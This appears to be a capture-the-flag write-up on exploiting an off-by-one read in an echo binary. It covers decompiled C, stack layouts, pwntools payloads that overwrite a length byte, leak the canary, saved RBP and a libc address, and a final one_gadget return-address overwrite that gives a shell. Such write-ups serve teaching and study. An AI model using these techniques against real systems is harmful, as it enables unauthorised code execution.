



What can you do with a single overflowing byte? Well... first let's look at the security mitigations. 
You'll notice that this is a completely locked-down binary, but that won't stop us.


## Disassembly
There are three important functions in this binary:
- `main()`: simply calls our echo function.
- `echo()`:  internally calls `read_stdin()` and prints the read text on stdout.
- `read_stdin()`: a strange wrapper around the standard `read()` function.

The `main` function isn't that significant, so we can skip it for brevity and focus directly on `echo()`.

```c
unsigned __int64 echo()
{
  char buffer[64]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int8 max_chars; // [rsp+40h] [rbp-10h]
  unsigned __int64 canary; // [rsp+48h] [rbp-8h]

  canary = __readfsqword(0x28u);
  memset(s, 0, sizeof(buffer));
  max_chars = 64;
  while ( 1 )
  {
    printf("echo ");
    read_stdin(buffer, max_chars);
    if ( !buffer[0] )
      break;
    puts(buffer);
  }
  return canary - __readfsqword(0x28u);
}
```

This function does exactly what the name implies: it _requests_ max 64 bytes from stdin and sends it back to stdout through `puts(buffer)`. There doesn't seem to be an overflow here without looking into `read_stdin()`. Also, that stack canary will definitely be a problem later.  

Interestingly the `max_chars` variable is declared at the start of the function and stored on the stack. But technically it isn't needed, the developer could have simply put the number in the `read_stdin()` arguments.

Now let's explore the `read_stdin()` function:

```c
char *__fastcall read_stdin(char *buffer, unsigned __int8 max_chars)
{
  char *char_ptr; // rax
  unsigned __int8 i; // [rsp+1Fh] [rbp-1h]

  for ( i = 0; i <= max_chars; ++i )
  {
    if ( read(0, &buffer[i], 1uLL) != 1 || buffer[i] == '\n' )
    {
      char_ptr = &buffer[i];
      *char_ptr = 0;
      return char_ptr;
    }
  }
  return char_ptr;
}
```

This function behaves a little strangely: it iterates `max_chars + 1` times, reading at each loop one byte. If the byte is a newline, or if we read less than `max_chars + 1` bytes, the last byte gets overwritten by a zerobyte `\00`. 

So think about this scenario: `max_chars` is set to 64, but the loop lets us read up to 65 bytes (`i <= max_chars`). If we send exactly 65 `A`s without a newline, we write one byte outside the bounds of the buffer without even writing a nullbyte.

But where exactly does the OOB byte land?
## One byte to rule them all
Looking at the `echo()` function we see that the `max_chars` variable is allocated directly after our buffer on the stack, this is great! With a single byte it is possible to overwrite `max_chars` with something like `0xFF` and get a big buffer overflow. 

```python
[rbp-0x50] buffer (64 bytes)  <-- Fills with "A"*64 
[rbp-0x10] max_chars (1 byte) <-- Can be overwritten by "\xFF"
```

However, we need to precisely chose `max_chars`! The variable must be exactly the amount of bytes we want to write minus one, else a zerobyte will be added at the end, this could break our exploit.

```python
r.sa(b"echo ", b"A"*64 + b"\x48")
```

Yet we still have a little hurdle to overcome to get to a return address overwrite: the stack canary.
## One byte to leak them 
Stack canary have a nice property (or not, depends on the situation), the first byte is always a zerobyte. On one hand it stops us from leaking the canary with a simple print function because the nullbyte acts as a string terminator, on the other hand we can simply overwrite that byte without losing information about the canary.

By overflowing the buffer till the first byte of the canary the logic separation between the string and the canary bytes is lost, as such `puts()` will continue printing till a nullbyte is reached, this will also leak the saved RBP conveniently.

```python
r.sa(b"echo ", b"A"*64 + b"\x77" + b"B"*7 + b"Z") #0x49 bytes, max_chars must be \x48
```

```python
[rbp-0x50] buffer (64 bytes)  <-- Fills with "A"*64
[rbp-0x10] max_chars (1 byte) <-- Overwritten by "\x77" (expands loop) 
[rbp-0x0F] padding (7 bytes)  <-- Fills with "B"*7 
[rbp-0x08] canary (8 bytes)   <-- LSB overwritten by "Z"
```

This will get us:

```
AAAAA...AAAOBBBBBBBZO\x93;\x11Q_|\xb0\x84D\x80\xfe\x7f
                   |    canary    | Saved Base Pointer |
```

We can use the `Z` character as a delimiter to slice the output (this is why we added it), parse the leaked bytes, and reconstruct the canary and the saved RBP.

:::note
Remember that the leaked canary will be 7 bytes long, the leading zero byte must be added before unpacking the value with `u64(canary_leak)`.
:::

We are finally ready to overwrite the saved return pointer. But what do we point it to? We need one more leak... a pointer to Libc.
### Getting a Libc pointer
Remember that the `main()` is not truly the entrypoint of a C program. If you look at the stack with a debugger directly after `main()` is called, you will see on the top of the stack the return address to a location inside a function called `__libc_start_call_main`, as the name suggests this function is stored in the standard library. 

```python
00:0000│ rsp 0x7ffc0c2e3678 —▸ 0x7fc4ede2a1ca ◂— mov edi, eax #__libc_start_call_main + ???
```

We can leak this address exactly like we leaked the other address:

```python
r.sa(b"echo ", b"A"*64 + b"\x5f" + b"b"*7 + b"B"*0x28 + b"C"*7 + b"Z") #0x78 bytes, max_char must be \x77
```

```python
[rbp-0x50] buffer (64 bytes)   <-- Fills with "A"*64
[rbp-0x10] max_chars (1 bytes) <-- Overwritten by "\x5f"
[rbp-0x0F] padding (7 bytes)   <-- Fills with "b"*7 
[rbp-0x08] canary (8 bytes)    <-- Fills with "B"s
[rbp-0x00] saved RBP (8 bytes) <-- Fills with "B"s
[rbp+0x08] saved RIP (8 bytes) <-- Fills with "B"s
[rbp+0x10] *argv (8 bytes)     <-- Fills with "B"s
[rbp+0x18] argc (4 bytes)      <-- Fills with "B"s
[rbp+0x1c] padding (4 bytes)   <-- Fills with "B"s
[rbp+0x1c] saved RBP (8 bytes) <-- Fills with 7 "C"s and one "Z"
```
## One byte to bring them all
Now we have everything we need. Here is the final exploitation path: We overflow the buffer all the way down to the return address. Along the way, we carefully replace the canary and the base pointer with the values we leaked earlier, acting as if nothing ever happened so the canary check succeeds. Finally, we overwrite the return address to redirect execution to a `one_gadget` in Libc to get a shell.
### Finding the right Libc version
To find the correct libc version on the remote server, [libc.blukat.me ](https://libc.blukat.me/?)is our best friend. We can input our leaked libc address and its symbol name to find all libc versions that match that offset. 
But what symbol should we query for? The functions name is `__libc_start_call_main` but the leak gives us an address to somewhere in the middle. Fortunately we can use `__libc_start_main_ret` for exactly this scenario.



It is often helpful to download the newest matched version and if it doesnt work look at the older ones.  By using the One_gadget utility from your shell (or directly inside pwndbg) we can get a working gadget.



Now we can send the last echo command!

```python
r.sa(b"echo ", b"\0"*72 + p64(canary_l) + p64(stack_l + 0x8) + p64(libc_l + 0xef52b))
```

:::note
When you have a buffer overflow and control the RBP, you can often make "unusable" `one_gadgets` viable. For example, the gadget in this exploit requires `[rbp-0x78] == NULL`. By intentionally moving the RBP and padding our overflow with null bytes, we satisfy the gadget's constraints and successfully trigger a shell!
:::

```python
[rbp-0x50] buffer + others (64 bytes)   <-- Fills with "\0"
[rbp-0x08] canary (8 bytes)             <-- Fills with real canary
[rbp-0x00] saved RBP (8 bytes)          <-- Fills with stack_l + 0x8
[rbp+0x08] saved RIP (8 bytes)          <-- Fills with Onegadget
```
